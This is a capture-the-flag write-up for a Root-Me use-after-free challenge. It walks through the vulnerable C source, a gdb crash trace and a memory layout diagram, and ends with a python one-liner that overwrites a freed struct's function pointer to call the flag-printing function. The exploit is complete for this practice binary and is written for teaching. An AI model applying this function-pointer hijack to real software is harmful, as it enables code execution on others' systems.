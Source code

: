 # ELF x86 - Use After Free - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Use-After-Free-basic
```
Environment configuration :
PIE 	Position Independent Executable 	No
RelRO 	Read Only relocations 	             	Yes
NX 	Non-Executable Stack 	                Yes
Heap exec 	Non-Executable Heap 	        Yes
ASLR 	Address Space Layout Randomization 	Yes  
SRC 	Source code access 	                Yes

Challenge connection informations :

Host	        challenge03.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch63@challenge03.root-me.org    
Username	app-systeme-ch63
Password	app-systeme-ch63
```

The challenge provides a source code, and the title pretty much implies the vulnerability. Let's find it.
```c
struct Dog {
    char name[12];
    void (*bark)();				// <---- a function which does nothing
    void (*bringBackTheFlag)();			// <---- a function which prints the flag
    void (*death)(struct Dog*);			// <---- a function which frees the dog struct
};
struct DogHouse{
    char address[16];
    char name[8];
};

int main(){
	struct Dog* dog = NULL;
    struct DogHouse* dogHouse = NULL;
    [...snip...]
		case '4':
		if(!dog){
				puts("You do not have a dog.");
				break;
		}
		dog->death(dog);					// <---- frees the Dog struct and still keeps the pointer
		break;
	[...snip...]
}
```
As the above code (and comments) describes, there is a UAF vulnerability in this program. It's possible to allocate a Dog struct, and then free it. Afterward, it's possible to allocate a DogHouse in the same memory location of the free'd Dog struct, which will overwrite the Dog's functions.

First let's verify the vulnerability.

So, the plan is:<br>
	1. Buy a dog (allocate a Dog struct).
	2. Kill the dog (free the Dog struct).
	3. Buy a dog house (allocate a DogHouse sturct) which will overwrite a function pointer of the killed dog.
	4. The dog's spirit is still with us, so call its overwrite function (the is no changing of the Dog struct pointer, so it's possible).
	5. Get the flag.
(Note: I love animals and against animal cruelty).

Let's verify the vulnerability and see what's up:
```gdb
(gdb) run
Starting program: /challenge/app-systeme/ch63/ch63
warning: the debug information found in "/lib/old32/libc-2.19.so" does not match "/lib/old32/libc.so.6" (CRC mismatch).

1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
1
How do you name him?
Albert
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
4
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
5
Where do you build it?
AAAABBBBCCCCDDDD
How do you name it?
EEEEFFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
The following diagram will describe what happend:
```
    1. Allocating a Dog sturct
      +---------------------+--------+--------------------+-------+
      |         Albert      | bark() | bringBackTheFlag() | death |   (24 bytes)
      +---------------------+--------+----------------------------+

    2. Freeing the Dog struct - no change.
    3. Allocating a DogHouse struct in the same memory address (same size).
      +---------------------+--------+--------------------+-------+
      |     AAAABBBBCCCC    |  DDDD  |        EEEE        | FFFF  |   (24 bytes)
      +---------------------+--------+----------------------------+
    4. Running bark() results in segmantation fault.
```
At this point we've got a code execution. Now it's time to leaverage it.<br>
The ASLR is on, but the PIE is off, which means that the _text segment is not
randomized. In addition, according to the source code, the challenge made it
easy for us and added a function which prints the flag - so we won't have to build
a ROP and cat the file.

According to gdb, the function is at 0x80487cb:
```gdb
(gdb) print bringBackTheFlag
$1 = {<text variable, no debug info>} 0x80487cb <bringBackTheFlag>
```

So after combining all of the above, we've got the following output:
```sh
$ python -c "print '1\n' + 'albert\n' + '4\n' + '5\n' + 'AAAABBBBCCCC\xcb\x87\x04\x08\n' + 'EEEEFFFF\n' + '2\n'" | ./ch63
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
How do you name him?
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Where do you build it?
How do you name it?
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
<censored>
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
```
